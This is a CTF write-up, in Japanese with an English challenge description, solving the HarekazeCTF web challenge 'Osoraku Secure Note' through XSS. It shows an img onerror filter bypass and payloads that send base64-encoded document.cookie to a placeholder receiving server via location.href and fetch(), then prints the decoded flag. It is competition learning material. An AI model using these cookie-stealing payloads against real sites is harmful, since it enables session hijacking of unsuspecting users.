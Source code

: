 # Osoraku Secure Note:Web:322pts
メモ帳を作ってみました。  
[http://osoraku-secure-note.harekaze.com](http://osoraku-secure-note.harekaze.com/)  
添付ファイル:  
- [osoraku-secure-note.zip](osoraku-secure-note.zip)  

---

I made a note-taking service.  
[http://osoraku-secure-note.harekaze.com](http://osoraku-secure-note.harekaze.com/)  
Attachments:  
- [osoraku-secure-note.zip](osoraku-secure-note.zip)  

# Solution
サイトにアクセスするとメモサービスのようだ。  
Osoraku Secure Note  
[site.png](site/site.png)  
メモの閲覧画面で`Report this note`とあることからもXSS問題のようだ。  
`<script>alert(1)</script>`はブロックされる。  
ブラックボックスで`<img abc`を入れてみると`<img abc="" <="" div="">`となっていた。  
不完全なタグでXSSが起こせそうだ。  
`<img src="1" onerror="alert(1)"`でalertが発生した。  
あとはdocument.cookieを取得してリダイレクトすればよい。  
`<img src="1" onerror="location.href='https://[リクエストが受け取れるサーバ]/?s='+btoa(document.cookie)"`  
しかし、うまく動作しなかった(ローカルではChrome,Firefoxで動作した)。  
クローラではよくあることなのでfetchすればよい。  
`<img src="1" onerror="fetch('https://[リクエストが受け取れるサーバ]/?s='+btoa(document.cookie));"`  
すると`/?s=ZmxhZz1IYXJla2F6ZUNURntjaHIxc3RtNHNfNGx3NHlzX3JlbTFuZHNfbWVfMGZfNG00ZzRtMX0=`のリクエストが飛んでくる。  
```bash
$ echo "ZmxhZz1IYXJla2F6ZUNURntjaHIxc3RtNHNfNGx3NHlzX3JlbTFuZHNfbWVfMGZfNG00ZzRtMX0=" | base64 -d
flag=HarekazeCTF{chr1stm4s_4lw4ys_rem1nds_me_0f_4m4g4m1}
```
デコードするとflagであった。  
ちなみにfirst bloodだった。  

## HarekazeCTF{chr1stm4s_4lw4ys_rem1nds_me_0f_4m4g4m1}